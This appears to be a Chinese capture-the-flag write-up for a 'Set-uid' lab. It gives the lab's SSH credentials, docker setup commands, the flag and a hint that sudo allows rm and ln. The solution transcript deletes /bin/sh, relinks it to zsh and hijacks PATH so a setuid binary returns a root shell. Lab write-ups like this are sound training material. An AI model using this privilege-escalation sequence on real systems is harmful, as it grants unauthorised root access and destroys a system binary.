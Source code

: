 ### 题目：

Set-uid

### 描述：

ssh noweb/123456 IP:10722(替换成实际IP)

flag in /root/flag

### flag:

flag{sCnu8t@ixin9s10thx1ng}

### 环境搭建：



```
docker build -f ./dockerfile -t suid .
docker run --name=setuid_my -p 10722:22  -td suid:latest
```



### 提示

1.only zsh

2.noweb  ALL=(root) /bin/rm, /bin/ln



### 解题过程

```
noweb@7b28c3260595:~$ sudo rm /bin/sh
[sudo] password for noweb:
noweb@7b28c3260595:~$ sudo ln -s /bin/zsh /bin/sh
noweb@7b28c3260595:~$ cp /bin/sh /tmp/ls
noweb@7b28c3260595:~$ export PATH=/tmp:$PATH
noweb@7b28c3260595:~$ ./key
7b28c3260595# cat /root/flag
flag{xxx}
```

